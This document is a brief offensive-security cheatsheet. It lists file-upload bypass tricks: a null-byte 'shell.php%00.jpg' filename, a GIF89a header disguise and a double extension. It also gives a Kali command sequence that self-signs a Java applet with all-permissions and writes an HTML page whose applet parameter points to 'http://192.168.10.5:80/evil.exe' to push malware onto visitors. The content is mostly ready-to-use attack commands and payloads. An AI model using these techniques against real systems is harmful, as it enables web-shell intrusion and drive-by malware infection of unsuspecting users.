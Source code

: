 # Cheatsheet

## File Upload

### Filename Suffixes

```
example.php%
```

```
filename="shell.php%00.jpg"
```

### Creating GIF

Put `GIF89a;`​ as the first line in the file and save the file with a ​ `.gif`​ extension

### Bypass Validation

- File name validation: `valid.txt` with `valid.txt.php`

## Applet
```
root@kali:~# javac Java.java
root@kali:~# echo “Permissions: all-­‐permissions” > /root/manifest.txt
root@kali:~# jar cvf Java.jar Java.class
    added manifest
    adding: Java.class(in = 1233) (out= 709)(deflated 42%)

root@kali:~# keytool -­‐genkey -­‐alias signapplet -­‐keystore mykeystore -­‐keypass mykeypass -­‐storepass password123

root@kali:~# jarsigner -­‐keystore mykeystore -­‐storepass password123 -­‐keypass
    mykeypass -­‐signedjar SignedJava.jar Java.jar signapplet

root@kali:~# echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://192.168.10.5:80/evil.exe"></applet>' > /var/www/java.html
```
